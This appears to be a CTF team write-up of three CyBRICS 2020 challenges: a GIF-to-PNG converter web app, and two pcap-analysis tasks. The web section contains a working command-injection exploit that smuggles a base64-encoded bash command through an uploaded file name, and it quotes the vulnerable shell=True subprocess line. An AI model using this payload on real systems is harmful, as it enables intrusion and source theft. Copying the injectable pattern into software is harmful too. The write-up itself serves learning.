




# Categories 

+  [Web](#web)
+  [Forensics](#forensics)
+  [Network](#network)


## Web

### gif2png

**Solved By:** cernec1999  
**Points:** 52  
**Flag:** cybrics{imagesaresocoolicandrawonthem}

##### Challenge

This challenge features an eccentric GIF to PNG converter web application. The challenge ships with a directory of the source code. The server is a Python3 Werkzeug application with a flag variable stored in the source code. We have to figure out how to leak the source code file on the server-side to get the flag.

##### Solution

Right away, we can see there is a command line injection vulnerability at ```main.py:73```. The line looks like this:

```python
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

The file.filename variable (which is sent via the client upon file upload) can be controlled by an attacker. An attacker can set this filename to be arbitrary values. However, there are a few constraints that the filename must have in order to be "valid".

1. The filename must have the extension .gif
2. The content type must be image/gif
3. The filename must pass a regex constraint

The first two constraints are easy to bypass as the attacker can arbitrarily set the filename and content type from the client. The third constraint is a tad harder, but using our trusty regex knowledge, we can form the payload.

The condition we need to pass looks like this.

```python
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
```

Luckily, our payload can contain any alphanumeric characters and a few symbols which will make our life much easier. In our case, besides alphanumeric characters, we only need these three characters: ```'```, ```-```, and ```|```.

Using the unix pipe operator, we can run multiple commands. Normally, the pipe operator routes the standard out from a specific process to another process, but in our case, we will use it for our command injection.

Initially, I tried to make my payload send the main.py file to a remote server via curl (and Python3), but I could not get it to work. Perhaps they set up strange firewall rules. I then took the obvious route of simply moving the ```main.py``` file to the ```uploads/``` directory on the webserver.

Here is my completed solution. It even features encoding the payload into base64 so you can use many other symbols!

```python
#!/usr/bin/python3
import requests, base64

# Shellcode to execute
shellcode = "mkdir uploads/haxxxx && cp main.py uploads/haxxxx/main.py"

# b64 encoded shellcode
encoded = base64.b64encode(shellcode.encode("utf-8")).decode("utf-8")

# Exploit string
exp = f"\' | echo \'{encoded}\' | base64 -d  |  bash  | \'.gif"

# Upload file
files = {'file':(exp, open('FullColourGIF.gif', 'rb'), 'image/gif')}
r = requests.post("http://gif2png-cybrics2020.ctf.su/", files=files)
```

Then, we simply need to access http://gif2png-cybrics2020.ctf.su/uploads/haxxxx/main.py to get our flag.

## Forensics

### Krevedka

**Solved By:** cernec1999  
**Points:** 50  
**Flag:** cybrics{micropetalous}

##### Challenge

This challenge involves a large ```.pcapng``` file. Our task is to search through the HTTP requests and figure out which user "hacked" into another user's account.

The task says the victim user is ```caleches```.

##### Solution

1. First, we open the pcap file.
2. Then, we can do a simple binary search within to find the user ```caleches```.
3. We investigate the TCP stream of the hacked account to learn the attacker's user agent.
```
User-Agent: UCWEB/2.0 (Linux; U; Opera Mini/7.1.32052/30.3697; www1.smart.com.ph/; GT-S5360) U2/1.0.0 UCBrowser/9.8.0.534 Mobile
```
4. We search for that user agent in the packets.
5. We investigate the TCP stream of this user agent, and we find out that it's for the login of user ```micropetalous```.  


## Network  

### Xcorp  

**Solved By:** [tbutler0x90](https://tbutler.org)   
**Points:** 50  
**Flag:** cybrics{53CuR1tY_N07_0b5CuR17Y}

##### Challenge  

This challenge features a ```.pcap``` file which the author describes as being captured on the ficticious "xcorp" network. It incudes the description that employees on the xcorp network are using "in-house software" to keep their secrets.    

##### Solution  

1) First, we opened the pcap file with packet capture analyzer, Wireshark.   
2) Looking at the network traffic, we notice that the nc10.exe application is requested via the SMB protocol.      

    

3) Using the file --> export objects option in wireshark, the nc10.exe and other files requested are exported.      

    

1) The executable was a Microsoft Windows application. In order to run, it was executed in a windows VM.  The application asks for a username which was also found during the pcap analysis.    

  

5) Running the application with the username "u17ra_h4ck3r" gave us the flag.

  


